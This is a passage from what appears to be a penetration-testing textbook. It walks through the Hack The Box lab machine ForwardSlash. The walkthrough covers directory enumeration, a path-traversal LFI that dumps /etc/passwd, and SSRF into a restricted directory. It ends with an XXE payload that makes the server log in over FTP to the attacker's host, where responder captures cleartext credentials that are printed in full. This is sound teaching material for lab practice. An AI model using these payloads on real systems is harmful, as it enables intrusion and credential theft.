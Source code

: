 # Exercise: Enumerating and exploiting XXE on ForwardSlash



We covered the first part of this machine in Chapter 2. We had discovered a site backup.forwardslash.htb which presented us with a login page. We can explore this site with gobuster looking for directories and PHP files:

┌─\[oztechmuse@parrot\]─\[~/boxes/ForwardSlash\]

└──╼ $gobuster dir -t 50 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php -u http://backup.forwardslash.htb

&lt;SNIP&gt;

/login.php \(Status: 200\)

/register.php \(Status: 200\)

/index.php \(Status: 302\)

/welcome.php \(Status: 302\)

/dev \(Status: 301\)

/api.php \(Status: 200\)

/environment.php \(Status: 302\)

/logout.php \(Status: 302\)

/config.php \(Status: 200\)

/hof.php \(Status: 302\)

If we try and got to the /dev directory, we get a 403 Access Denied:

403 Access Denied

Access Denied From 10.10.14.135

It seems that this directory is not accessible from outside IP addresses. The login page does have a link to /register.php and so we can create an account on the site there. Using the new credentials, we can log in and get access to a dashboard page \(Figure 3-5\)



![Diagram

Description automatically generated](../.gitbook/assets/7%20%284%29.png)

Dashboard home page for users on ForwardSlash

The page of interest is for changing your profile picture \(Figure 3-6\) which reports that the functionality has been disabled because of a hack of the site.



![Graphical user interface, text, application, email, website

Description automatically generated](../.gitbook/assets/8%20%284%29.png)

Change profile picture page on ForwardSlash

The text box and Submit button have been disabled by adding the attribute disabled="" into the HTML for these elements. If you right click on the web page in the browser and select Inspect Element, you will be able to see the HTML for the page in the Inspector tab of the browser developer tools \(Figure 3-7\).



![Graphical user interface, text, application

Description automatically generated](../.gitbook/assets/9%20%281%29.png)

Inspecting the HTML code for the page profilepicture.php

You can click on the HTML where it says disabled in the form section and delete it for both the text box and the submit button. Let us test for Local File Inclusion \(LFI\) by pointing the URL in the text box to a local file like /etc/passwd. Switch FoxyProxy to use the Burp proxy and enter ../../../etc/passwd into the text box before pressing the Submit button. Once intercepted in Burp, send the request to the Repeater tab and press Send to send it to the server. The response includes the file!

HTTP/1.1 200 OK

&lt;SNIP&gt;

&lt;!DOCTYPE html&gt;

&lt;head&gt;

 &lt;meta charset="UTF-8"&gt;

 &lt;title&gt;Welcome&lt;/title&gt;

 &lt;link rel="stylesheet" href="bootstrap.css"&gt;

 &lt;style type="text/css"&gt;

 body{ font: 14px sans-serif; text-align: center; }

 &lt;/style&gt;

&lt;/head&gt;

&lt;body&gt;

 &lt;div class="page-header"&gt;

 &lt;h1&gt;Change your Profile Picture!&lt;/h1&gt;

 &lt;font style="color:red"&gt;This has all been disabled while we try to get back on our feet after the hack.&lt;br&gt;&lt;b&gt;-Pain&lt;/b&gt;&lt;/font&gt;

 &lt;/div&gt;

&lt;form action="/profilepicture.php" method="post"&gt;

 URL:

 &lt;input type="text" name="url" disabled style="width:600px"&gt;&lt;br&gt;

 &lt;input style="width:200px" type="submit" value="Submit" disabled&gt;

&lt;/form&gt;

&lt;/body&gt;

&lt;/html&gt;

root:x:0:0:root:/root:/bin/bash

&lt;SNIP&gt;

pain:x:1000:1000:pain:/home/pain:/bin/bash

chiv:x:1001:1001:Chivato,,,:/home/chiv:/bin/bash

mysql:x:111:113:MySQL Server,,,:/nonexistent:/bin/false

This shows a couple of users, pain and chiv. If we now try LFI on the /dev directory, it will include the file index.php from there and we can read the contents:

&lt;html&gt;

 &lt;h1&gt;XML Api Test&lt;/h1&gt;

 &lt;h3&gt;This is our api test for when our new website gets refurbished&lt;/h3&gt;

 &lt;form action="/dev/index.php" method="get" id="xmltest"&gt;

 &lt;textarea name="xml" form="xmltest" rows="20" cols="50"&gt;&lt;api&gt;

 &lt;request&gt;test&lt;/request&gt;

&lt;/api&gt;

&lt;/textarea&gt;

 &lt;input type="submit"&gt;

 &lt;/form&gt;

&lt;/html&gt;

&lt;!-- TODO:

Fix FTP Login

--&gt;

Do you remember how we got a 403 error when we tried to access this directory before with an error message saying we couldn't access it from our IP address? Well, we have now found a way of exploiting a SSRF \(Server Side Request Forgery\) by accessing the site from the web server itself using LFI.

The returned information suggests a function to test XML input and so we can test if the site is vulnerable to XXE. This next part is going to be a leap of faith as to how you are supposed to work out that what the XML will do is try an FTP login, however, there is a clue in the TODO message to "Fix FTP Login". We can construct an XML document that will execute an FTP login as follows:

&lt;?xml version="1.0" ?&gt;

&lt;!DOCTYPE html \[

&lt;!ELEMENT bar &gt;

&lt;!ENTITY foo SYSTEM "ftp://10.10.14.135/"&gt;

\]&gt;

&lt;api&gt;

 &lt;request&gt;$foo;&lt;/request&gt;

&lt;/api&gt;

We can then send that to the /dev/index.php page using the request in Burp by passing the XML as a parameter to http://backup.fowardslash.htb/dev/index.php?xml=&lt;XXE code&gt;. The XML code needs to be URL encoded twice and so select the XML code in Burp and right click and select URL encode all characters. Repeat this. Before sending the request, we can start the tool responder to listen for FTP requests and print out the username and password that has been supplied:

 ─\[rin@parrot\]─\[~/boxes/ForwardSlash\]

└──╼ $sudo responder -I tun0

&lt;SNIP&gt;

\[+\] Servers:

&lt;SNIP&gt;

 FTP server \[ON\]

When the request is sent in Burp, we get a hit:

\[+\] Listening for events...

\[FTP\] Cleartext Client : 10.129.1.91

\[FTP\] Cleartext Username : chiv

\[FTP\] Cleartext Password : N0bodyL1kesBack/

This then gives us credentials to use with SSH to get on the box as user chiv. This user doesn't have access to the user flag and you will need to do some lateral movement to get the user pain. However, that involves another SUID file and we can leave that as an exercise for later.

